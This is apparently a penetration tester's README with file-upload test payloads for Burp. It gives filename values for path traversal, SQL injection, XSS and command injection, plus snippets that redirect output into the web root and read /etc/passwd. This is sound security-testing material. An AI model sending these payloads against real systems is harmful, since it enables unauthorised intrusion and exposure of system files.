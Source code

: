 # webAppVulnScripts
Here is a repo of the collective vulnerability scripts used for web applications


## Parameters to include within burp
```
{fileName} = hello
{fileExtension} = jpg
{fileExtension} = png
{domain} = xxx.collaboraror.org
```

-- Try and include localhost 

### General rule
Set filename to ../../../tmp/lol.png and try to achieve a path traversal
Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
Set filename to <svg onload=alert(document.domain)> to achieve a XSS
Set filename to ; sleep 10; to test some command injection --> https://book.hacktricks.xyz/pentesting-web/command-injection


### Not executed but may be interesting
```
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

### References
https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology

